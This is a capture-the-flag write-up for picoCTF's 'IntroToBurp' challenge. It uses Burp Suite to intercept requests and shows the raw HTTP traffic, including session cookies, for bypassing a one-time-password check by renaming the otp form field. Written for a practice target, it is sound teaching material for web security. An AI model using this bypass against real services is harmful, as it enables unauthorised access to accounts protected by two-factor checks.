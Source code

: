 # IntroToBurp

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Easy
Tags: picoCTF 2024, Web Exploitation
Author: NANA AMA ATOMBO-SACKEY & SABINE GISAGARA

Description:
Try here to find the flag

Hints:
1. Try using burpsuite to intercept request to capture the flag.
3. Try mangling the request, maybe their server-side code doesn't handle 
   malformed requests very well.
```

Challenge link: [https://play.picoctf.org/practice/challenge/419](https://play.picoctf.org/practice/challenge/419)

## Solution

### Analyse the web site

Browse to the web site and you will see a registration web page with five text boxes and a `Register` button.

Start [BURP Suite](https://portswigger.net/burp) and configure your browser to use Burp as its proxy.
Then set 'Intercept' to off under the `Proxy` -> `Intercept` tab.

Next, we register some bogus information on the web page and let Burp catch the request which looks like this

```text
POST / HTTP/1.1
Host: titan.picoctf.net:59762
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titan.picoctf.net:59762/
Content-Type: application/x-www-form-urlencoded
Content-Length: 174
Origin: http://titan.picoctf.net:59762
DNT: 1
Connection: keep-alive
Cookie: session=.eJw1jcsKwjAQRX9Fsu7CpHnpB_gDxXVokiktzaMkKSLivzsV3Z17LnfmRdzSnuRKhpbdOucQSUdcLZNpeYWEBQUvuHVcT1ppBkpZKdioLAjbq9477h1jkl5wN-0hmDRGwNkN-fTljuS2oRGcaXrGuI21PnLx6AK0CEs65JwTmLRHC-X4ynoupMJir1B-N-9_fH8AZl045Q.ZmbzvA.b9WKQbgaex2C-M19mGpLM2OMMYw
Upgrade-Insecure-Requests: 1
Priority: u=1

csrf_token=IjFlZDU0YmM0OGY4NzgyZTc3YjY1MmE3YmU1YjM3M2RjNGRjMjI2MTki.Zmb14Q.m0F_00t8_d03iaIal1cDYGISH7Y&full_name=A&username=B&phone_number=C&city=D&password=E&submit=Register
```

After submitting the registration data you are redirected to a `/dashboard` page which wants a 2FA value.  
Submit any bogus data here.  

This request looks like this

```text
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:59762
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titan.picoctf.net:59762/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://titan.picoctf.net:59762
DNT: 1
Connection: keep-alive
Cookie: session=.eJwti8sOwiAQAP9lzx6EQhe9afU7CI8lGltooMQY47-7Jt5mJpk3hPv2giNcYAeh1WS38qDMQVDUygdlkkEjCdGPWjr0pP2AQwwqBilHceAv9Xm22S3E24m9bCsTCmlwz7q61p6lRm7Xn95KJpv74qlymjj1RvX_n-HzBaDgK5c.Zmb6Dw.kY8tuOGUScAGpfmmCA7JVYn5T6E
Upgrade-Insecure-Requests: 1
Priority: u=1

otp=bogus
```

The result is a web page displaying `Invalid OTP`.

### Get the flag

To get the flag we need to maniplulate the POST-request to `/dashboard`.  
Under `Proxy` -> `HTTP history` tab right-click on this POST request and 'Send to Repeater'.  
Then navigate to the `Repeater` tab.  

Change the `otp` value in the request to something else and set it to any value.  
Then send the request.

I used the following request

```text
<---Unchanged data removed for readability--->
Upgrade-Insecure-Requests: 1
Priority: u=1

bogus=4711
```

And got this reply back

```text
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Mon, 10 Jun 2024 13:15:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 102
Vary: Cookie
Connection: close

Welcome, B you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Burp suite - Homepage](https://portswigger.net/burp)
- [HTTP - Wikipedia](https://en.wikipedia.org/wiki/HTTP)
- [Multi-factor authentication - Wikipedia](https://en.wikipedia.org/wiki/Multi-factor_authentication)
- [One-time password - Wikipedia](https://en.wikipedia.org/wiki/One-time_password)
